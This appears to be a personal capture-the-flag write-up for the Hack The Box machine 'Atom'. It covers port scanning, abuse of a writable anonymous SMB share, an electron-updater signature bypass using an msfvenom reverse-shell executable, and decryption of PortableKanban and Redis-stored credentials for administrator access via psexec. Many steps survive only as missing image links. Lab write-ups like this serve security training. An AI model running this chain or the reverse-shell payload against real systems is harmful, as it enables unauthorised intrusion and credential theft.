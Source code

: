 # Enumeration.

Nmap port scanning.

``` bash
# Nmap 7.91 scan initiated Sun Jul 11 12:02:21 2021 as: nmap -p- --open -T5 -v -n -Pn -oN allPorts 10.10.10.237
Nmap scan report for 10.10.10.237
Host is up (0.14s latency).
Not shown: 65529 filtered ports
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT     STATE SERVICE
80/tcp   open  http
135/tcp  open  msrpc
443/tcp  open  https
445/tcp  open  microsoft-ds
5985/tcp open  wsman
6379/tcp open  redis

Read data files from: /usr/bin/../share/nmap
# Nmap done at Sun Jul 11 12:05:54 2021 -- 1 IP address (1 host up) scanned in 212.42 seconds
```

``` bash
# Nmap 7.91 scan initiated Sun Jul 11 12:08:52 2021 as: nmap -sC -sV -p80,135,443,445,59585,6379 -oN targeted 10.10.10.237
Nmap scan report for 10.10.10.237
Host is up (0.17s latency).

PORT      STATE    SERVICE      VERSION
80/tcp    open     http         Apache httpd 2.4.46 ((Win64) OpenSSL/1.1.1j PHP/7.3.27)
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Apache/2.4.46 (Win64) OpenSSL/1.1.1j PHP/7.3.27
|_http-title: Heed Solutions
135/tcp   open     msrpc        Microsoft Windows RPC
443/tcp   open     ssl/http     Apache httpd 2.4.46 ((Win64) OpenSSL/1.1.1j PHP/7.3.27)
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Apache/2.4.46 (Win64) OpenSSL/1.1.1j PHP/7.3.27
|_http-title: Heed Solutions
| ssl-cert: Subject: commonName=localhost
| Not valid before: 2009-11-10T23:48:47
|_Not valid after:  2019-11-08T23:48:47
|_ssl-date: TLS randomness does not represent time
| tls-alpn: 
|_  http/1.1
445/tcp   open     microsoft-ds Windows 10 Pro 19042 microsoft-ds (workgroup: WORKGROUP)
6379/tcp  open     redis        Redis key-value store
59585/tcp filtered unknown
Service Info: Host: ATOM; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: 2h32m25s, deviation: 4h02m32s, median: 12m23s
| smb-os-discovery: 
|   OS: Windows 10 Pro 19042 (Windows 10 Pro 6.3)
|   OS CPE: cpe:/o:microsoft:windows_10::-
|   Computer name: ATOM
|   NetBIOS computer name: ATOM\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2021-07-11T10:21:52-07:00
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2021-07-11T17:21:50
|_  start_date: N/A

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sun Jul 11 12:10:05 2021 -- 1 IP address (1 host up) scanned in 72.24 seconds
```

I notice that has a SMB client, lets enumerate with it.

``` bash
smbmap -u anonymous -p anonymous -H 10.10.10.237
[+] Guest session       IP: 10.10.10.237:445    Name: unknown                                           
        Disk                                                    Permissions     Comment
        ----                                                    -----------     -------
        ADMIN$                                                  NO ACCESS       Remote Admin
        C$                                                      NO ACCESS       Default share
        IPC$                                                    READ ONLY       Remote IPC
        Software_Updates                                        READ, WRITE
```

There are one readable directory, `Software_Updates`.

Lets check what it has.

``` bash
smbmap -u anonymous -p anonymous -H 10.10.10.237 -R Software_Updates                                                                                                                                     took  6s
[+] Guest session       IP: 10.10.10.237:445    Name: unknown                                           
        Disk                                                    Permissions     Comment
        ----                                                    -----------     -------
        Software_Updates                                        READ, WRITE
        .\Software_Updates\*
        dr--r--r--                0 Sun Jul 11 13:10:20 2021    .
        dr--r--r--                0 Sun Jul 11 13:10:20 2021    ..
        dr--r--r--                0 Sun Jul 11 13:10:20 2021    client1
        dr--r--r--                0 Sun Jul 11 13:10:20 2021    client2
        dr--r--r--                0 Sun Jul 11 13:10:20 2021    client3
        fr--r--r--            35202 Fri Apr  9 06:18:08 2021    UAT_Testing_Procedures.pdf
```

Look like we got some client's directories, but without name or credentials, and a `.pdf` lets get that file and read it.

``` bash
smbmap -u anonymous -p anonymous -H 10.10.10.237 --download Software_Updates/UAT_Testing_Procedures.pdf                                                                                                      ✘ INT
[+] Starting download: Software_Updates\UAT_Testing_Procedures.pdf (35202 bytes)
[+] File output to: /home/oredreim/Documents/hacking/htb/atom/nmap/10.10.10.237-Software_Updates_UAT_Testing_Procedures.pdf
```
![[Pasted image 20210711132754.png]]

So, after reading the document, I notice that it says I can update file to the clients directories, and also says that it will test, upgrade and install the files. Now, what the hell do, cause i have no idea how can i update the files.

Well! actually I do, I can use and other tool, `smbclient`, and get access as `anonymous` user and I can put files on the `Software_Updates`. 

Then I notice that there is some crazy things, electron builder.

What in the hell is an `electron-builder`. But before start searching, lets take a look at the web site, cause there is also something interesting to get, there is a file I can download, so lets move on and do it and check what it has.

![[Pasted image 20210712100331.png]]

So now, lets unzip de `.exe` cause i cant execute that file but i can check what it has inside with `7z x heed.exe`.


And it drop us and other directory that Im gonna change the name cause i dont like that name.

![[Pasted image 20210712100512.png]]

This is what I got. And there is also and other `.zip` file so lets keep unzipping.

![[Pasted image 20210712100555.png]]

There you go, finally we got everything to check in. Now lets move into the directory `resources` and we see some file, if I check the `.yml` file I see there is and other domain `update.atom.htb`.

![[Pasted image 20210712100916.png]]
 
Lets put it in the Hosts.

Now lets to the `electron-builder`.

What the hell is that? after searching and reading a lot of innecesary documentations. I decide to search for an exploit and I understand that the `electron-builder` is vulnerable to RCE.

https://blog.doyensec.com/2020/02/24/electron-updater-update-signature-bypass.html

![[Pasted image 20210711150907.png]]

Lets get the `.yml` script.

![[Pasted image 20210712102233.png]]

And lets create our executable `.exe` to update.
``` bash 
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.16.48 LPORT=4444 -f exe -o shell.exe
```

Ok I got a `.yml` and `.exe` file to exploit the `electron-builder`. But is not that simple, we need to change something in the `.yml` cause if you read it, you understand that there is some encryption, `sha512` to update the file, lets do it to the `.exe` file so it wont give us problems.

``` bash 
 sha512sum shell.exe | awk '{print $1}' | xxd -r -p | base64 -w 0
6vGfWVFFa8/7YEesVXU3NmZ35QIhnPwp9otBh5AVUclt1sAGP/986KEGmnXT02KMO65vmlP060HcmApKgyjf4w==
```

Now put the `BASE64` on the `.yml` script and change some things too, lets change the version cause as I read before it will upgrade the files and some other things, lets try to get one version that it may not change, and change the name file to the one we made, but check that the file must have a `'` so it will execute. 

![[Pasted image 20210712103711.png]]

Then we upload the files in one of the clients directories, and wait till we get the revershell from the port we open.

![[Pasted image 20210712115401.png]]
![[Pasted image 20210712115448.png]]
![[Pasted image 20210712115535.png]]

# Privilage Scalation.
After looking all the directories and files, I check a one in the Downloads named `PortableKanban` with some file, one named `PortableKanban.cfg`.

![[Pasted image 20210712121123.png]]

This is too much information to read like that, I need to make it possible to read.

![[Pasted image 20210712121412.png]]

Much better!!! now lets find some credentials

![[Pasted image 20210712121542.png]]

I got one encrypted, I asume that it is a `BASE64` but is not that simple to decrypt this password, cause kanban do his on way, with some keys, so lets find out the keys.

I find a epxloit that use the default keys, but want to use it, Im gonna copy the keys and insert them into cyberchef, cause for me is easier.

![[Pasted image 20210712123744.png]]

![[Pasted image 20210712123900.png]]

As I said, it is `BASE64` so lets put that is from base64, and as in the exploit I take the keys, lets put the Deskeys, and there you go, you crack the password.

![[Pasted image 20210716113220.png]]

So, i made a connection with redis. cause thats what we are gonna use to connect with the kanban key.

I send the authentication and works.

Lets now try to list the keys. There is one interesting key, lets check it.

![[Pasted image 20210716113351.png]]

The `pk:urn:user:e8e29158-d70d-44b1-a1ba-4949d52790a0` is the one we need.

![[Pasted image 20210716113432.png]]

It's the key to administrator. Lets go back to `cyberchef` and decrypt the password.

![[Pasted image 20210716113549.png]]

Looks to similar to the one we decrypted before, but this one will work with psexec.py to get administrator access.

![[Pasted image 20210716113959.png]]





